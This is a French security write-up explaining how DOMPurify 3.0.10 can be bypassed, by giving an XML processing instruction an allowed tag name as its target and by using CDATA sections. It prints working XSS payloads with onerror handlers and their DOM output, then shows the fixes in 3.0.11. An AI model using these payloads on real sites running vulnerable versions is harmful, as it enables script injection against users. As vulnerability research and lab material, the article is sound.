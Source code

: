 ```yaml
---
description: 22 mai 2024
---
```


# Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

## Crédits

Cet article se base sur les recherches de [RyotaK](https://x.com/ryotkak) ([https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)).

## Confusion nodeName

{% hint style="info" %}
Il est recommandé de consulter l'article précédent intitulé [dompurify-3.0.9-bypass-node-type-confusion.md](dompurify-3.0.9-bypass-node-type-confusion.md "mention"), avant de poursuivre la lecture.
{% endhint %}

La version 3.0.9 de Dompurify présente une vulnérabilité de contournement lorsqu'un contenu XML utilisant l'interface `ProcessingInstruction` est utilisé dans une page HTML. La version 3.0.10 corrige ce problème en ajoutant le masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des nœuds XML, permettant ainsi leur prise en compte.

Pour rappel, le format d'une telle instruction est le suivant :&#x20;

```xml
<?target data?>
```

Et l'exploitation de la vulnérabilité peut s'effectuer de cette manière :

```xml
<?xml-stylesheet ><img src=x onerror=alert(1)>?>
```

Puisque la version 3.0.9 de Dompurify n'analyse pas les instructions de traitement (processing instructions), et que l'interface le permet, l'utilisateur peut librement définir la cible (`target`) :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?whatever ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

Provoquant l'affichage de la boîte de dialogue :&#x20;

```html
<div id="userContent">
  <!--?whatever -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Grâce au correctif, la version 3.0.10 de Dompurify analyse dorénavent les noeuds de type `ProcessingInstruction`.

Lorsque Dompurify analyse une balise, la bibliothèque d'assainissement récupère tout d'abord le nom de la balise à analyser en accédant à la propriété `nodeName` :&#x20;

```javascript
/* Now let's check the element's type and name */
const tagName = transformCaseFunc(currentNode.nodeName);
```

Puis vérifie que la balise rencontrée soit autorisée :&#x20;

```javascript
if (!ALLOWED_TAGS[tagName] || FORBID_TAGS[tagName]) {
}
```

Par défaut, les balises autorisées sont les suivantes :&#x20;

```javascript
const html$1 = freeze(['a', 'abbr', 'acronym', 'address', 'area', 'article', 'aside', 'audio', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'content', 'data', 'datalist', 'dd', 'decorator', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'img', 'input', 'ins', 'kbd', 'label', 'legend', 'li', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meter', 'nav', 'nobr', 'ol', 'optgroup', 'option', 'output', 'p', 'picture', 'pre', 'progress', 'q', 'rp', 'rt', 'ruby', 's', 'samp', 'section', 'select', 'shadow', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'wbr']);
```

Pour un noeud de type `ProcessingInstructions`, la propriété `nodeName` retourne la valeur de la cible (`target`). Ainsi, pour contourner l'assainissement effectué par Dompurify en version 3.0.10, il suffit de renseigner une cible (`target`) présente dans la liste de balises autorisées, par exemple `<abbr>` (ou `<img>` comme l'a fait l'auteur de l'article originel) :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?abbr ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--?abbr -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

## Character data (CDATA)

`CDATA` est une section dans un document XML où les données sont traitées comme du texte brut, ce qui signifie que les balises et les entités spéciales à l'intérieur de cette section ne sont pas interprétées comme du code XML mais comme du texte. Cela permet d'inclure des caractères qui pourraient autrement être interprétés comme des balises ou des entités XML.

Une section `CDATA` commence par `<![CDATA[` et se termine par `]]>`. Voici un exemple :&#x20;

```xml
<![CDATA[Ceci est du texte.]]>
```

Le contournement de la version 3.0.9 était dû à l'absence de filtre pour prendre en compte l'interface `ProcessingInstruction`. Il en va de même pour les sections `CDATA` :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1) ]]>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)" ]]>
</div>
```

A noter que la variante suivante semble fonctionner également :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1)>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)">
  "]]>"
</div>
```

## Corrections

Concernant l'interface `ProcessingInstruction`, Dompurify 3.0.11 a décidé de supprimer toutes les occurrences d'instructions de traitement :

```javascript
/* Remove any ocurrence of processing instructions */
if (currentNode.nodeType === 7) {
  _forceRemove(currentNode);
  return true;
}
```

Pour les sections `CDATA`, l'ajout du filtre `NodeFilter.SHOW_CDATA_SECTION` permet de détecter correctement leur utilisation. Étant donné que la valeur de la propriété `nodeName` d'une telle section est `#cdata-section`, qui n'est pas une balise autorisée par défaut, le contournement n'est plus possible.

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION | NodeFilter.SHOW_CDATA_SECTION, null);
};
```

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurify-3.0.10-confusing-nodename).
